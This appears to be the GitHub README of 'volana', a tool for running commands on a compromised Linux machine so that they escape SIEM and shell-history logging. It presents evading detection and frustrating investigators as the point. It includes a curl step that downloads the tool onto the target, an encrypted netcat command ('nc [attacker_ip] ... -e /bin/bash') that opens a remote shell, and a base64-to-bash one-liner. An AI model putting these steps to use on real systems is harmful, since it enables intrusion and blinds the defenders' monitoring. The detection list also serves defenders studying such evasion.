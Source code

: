 
<div align="center">
<h3><i>volana<sub> (moon in malagasy)</i></h3>
<img src="https://github.com/ariary/volana/blob/main/img/moon.png">


<p><strong><pre><code>{ <a href="#usage">Use it</a> ; <a href="#hide-from">🌚<sub>(hide from)</sub></a>; <a href="#visible-for">🌞<sub>(detected by)</sub></a> } </code></pre></strong></p>
<h4> Shell command obfuscation to avoid SIEM/detection system </h4>
 <p> During pentest, an important aspect is to <b>be stealth</b>. For this reason you should <b>clear your tracks after your passage</b>. Nevertheless, many infrastructures log command and send  them to a SIEM in a real time making the cleaning part alone useless.<br><br><code>volana</code> provide a simple way to hide commands executed on compromised machine by providing it self shell runtime (enter your command, volana execute for you). Like this y you <b>clear your tracks DURING your passage</b></p>
</div>

## Usage

You need to get an interactive shell. (Find a way to spawned it, you are a hacker, it's your job ! [otherwise](#from-non-interactive-shell)). Then download it on target machine and launch it. that's it, now you can type the command you want to be stealthy executed 
```shell
## Download it from github release
## If you do not have internet access from compromised machine, find another way
curl -lO -L https://github.com/ariary/volana/releases/latest/download/volana

## Execute it
./volana

## You are now under the radar
volana » echo "Hi SIEM team! Do you find me?" > /dev/null 2>&1  #you are allowed to be a bit cocky
volana » [command]
```

Keyword for volana console:
* `ring`: enable ring mode ie each command is launched with plenty others to cover tracks (from solution that monitor system call)
* `exit`: exit volana console

### from non interactive shell

Imagine you have a non interactive shell (webshell or blind rce), you could use `encrypt` and `decrypt` subcommand.
Previously, you need to build `volana` with embedded encryption key.

**On attacker machine**
```shell
## Build volana with encryption key
make build.volana-with-encryption

## Transfer it on TARGET (the unique detectable command)
## [...]

## Encrypt the command you want to stealthy execute
## (Here a nc bindshell to obtain a interactive shell)
volana encr "nc [attacker_ip] [attacker_port] -e /bin/bash"
**encrypted cmd**
```

Copy encrypted command and executed it with your rce **on target machine**
```shell
./volana decr [encrypted_command]
## Now you have a bindshell shell, spawn it to make it interactive and use volana usually (.volana)

```

***Why not just hide command with `echo [command] | base64` ?***
And decode on target with `echo [encoded_command] | base64 -d | bash`

Because we want to be protected against system that trigger alert for `base64` use or that seek base64 text in command. Also we want to make investigation difficult and base64 isn't a real brake.

## Detection

Keep in mind that `volana` is not a miracle that will make you totally invisible. It aim is to make intrusion detection and investigation harder.

By detected we mean if we are able to trigger an alert if a certain command has been executed.


### Hide from

Only the `volana` launch command line will be catched


* Detection systems that are based on history command output
* Detection systems that are based on historic files
  * `.bash_history`, ".zsh_history" etc ..

### Visible for

* Detection systems that have alert for unknown command (volana one)
* Detection systems that are based on keylogger
  * Easy to avoid: copy/past commands
  * Not a common case
